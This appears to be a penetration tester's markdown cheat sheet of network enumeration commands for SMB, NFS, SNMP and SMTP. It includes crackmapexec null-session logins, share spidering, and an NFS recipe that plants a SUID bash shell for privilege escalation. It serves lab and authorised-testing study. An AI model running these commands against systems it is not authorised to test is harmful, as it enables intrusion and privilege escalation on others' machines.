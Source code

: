 * SMB enumeration (look for [Samba 2.2.x](https://www.exploit-db.com/exploits/7/))
``` sh
# run nmap smb-vuln scripts
nmap -Pn -p 135,139,445 --script smb-vuln* <ip>

# get netbios information
nmap -sU --script nbstat.nse -p 137 <ip>

# automated enumeration
enum4linux -a <ip>

# spider the C drive for files with "txt" in the name
crackmapexec smb <ip> -u <username> -p <password> --spider C\$ --pattern txt

# null authentication using network and local accounts; use `-d` option to specify domain
crackmapexec smb <ip>/<cidr> -u '' -p ''
crackmapexec smb <ip>/<cidr> -u '' -p '' --local-auth

# manual directory exploration
smbclient -L <ip>
smbclient \\\\<ip>\\<share>
```

* NFS enumeration
``` sh
# nmap enumeration
nmap -vv -Pn --script=nfs-showmount <ip>

# manual exploration
showmount -e <ip>

# test privilege escalation by mounting directory to target with suid shell (looking to do this with NFS version 3)
mkdir /tmp/test
mount -t nfs -o vers=3 <ip>:/home /tmp/test
cp /bin/bash /tmp/test/bash
chmod +s /tmp/test/bash

# nfs mounting with suid is applicable with disabled root squashing in `/etc/exports`
cat /etc/exports | grep no_root_squash
```

* SNMP enumeration
``` sh
# nmap NSE scripts
nmap -vv -Pn -p 161 --script=snmp-netstat,snmp-processes <ip>

# automated enumeration
onesixtyone <ip>
snmpwalk -c <communitystr> -v1 <ip>
```

* SMTP enumeration
``` sh
nmap -vv -Pn -p <ports> --script=smtp-ntlm-info,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 <ip>
smtp-user-enum -M VRFY -U <userlist> -t <ip>
```
